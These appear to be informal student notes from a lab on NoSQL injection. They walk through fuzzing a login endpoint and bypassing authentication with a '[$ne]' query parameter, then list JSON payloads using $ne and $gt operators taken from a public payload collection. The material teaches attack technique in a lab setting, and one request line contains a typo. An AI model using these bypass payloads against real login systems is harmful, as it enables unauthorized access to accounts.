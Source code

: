 

ls /usr/share/seclists/Fuzzing/Databases/NoSQL.txt

For this, the instructor knows its NoSQL because he made the lab and the lab literally says NoSQL Injection so he is going to fuzz for the no sql injection 

We try to log in with correct credentials 

admin:admin

we get correct login so we just try to login with wrong credentials, this way we generate traffic

We go to /login?username=asdasd&password=asdasd


the GET request holds this header in the body:

GET /login?username=admin%password=asdasd HTTP/1.1

and this is where we are going to utilize our nosql injection

GET /login?username=admin%password[$ne]=asdasd 

if we send this we get a successful login

here are example payloads:

{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}

from the source:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
